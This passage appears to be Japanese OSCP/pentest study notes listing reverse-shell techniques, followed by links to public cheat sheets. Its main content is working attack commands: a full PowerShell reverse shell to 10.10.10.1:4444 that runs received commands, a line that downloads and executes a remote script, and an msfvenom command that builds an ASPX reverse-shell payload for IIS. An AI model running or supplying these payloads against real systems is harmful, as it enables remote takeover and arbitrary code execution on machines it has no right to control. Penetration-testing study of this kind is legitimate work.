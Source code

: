 ``` bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.1:5000/mini-reverse.ps1')
```

参考：[Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

参考：[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

参考：[Reverse Shell Cheat Sheet: PHP, Python, Powershell, Bash, NC, JSP, Java, Perl](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

参考：[Reverse Shell Cheat Sheet - OSCP](https://oscp.infosecsanyam.in/shells/reverse-shell-cheat-sheet)

参考：[Offensive Security Cheatsheet](https://cheatsheet.haax.fr/windows-systems/exploitation/iis/)

参考：[kash1064/PayloadsAllTheThings: A list of useful payloads and bypass for Web Application Security and Pentest/CTF](https://github.com/kash1064/PayloadsAllTheThings?organization=kash1064&organization=kash1064)

### ペイロードの生成

- msfvenomはOSCPでも使用可能

``` bash
$ LHOST=`ip addr | grep -E -o "10.10.([0-9]{1,3}[\.]){1}[0-9]{1,3}"`

# IIS
# ASP(.asp)はインタプリタ方式、ASP.NET(.aspx)はコンパイラ方式
$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -o rev.aspx
```

参考：[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter) | Infinite Logins](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### SSH

``` bash
# 鍵の復号
openssl rsa -in encrypted -out decrypted

```

- SSHで`sign_and_send_pubkey: no mutual signature supported`が出る場合は古いSSHを使う

## スキャンツールまとめ
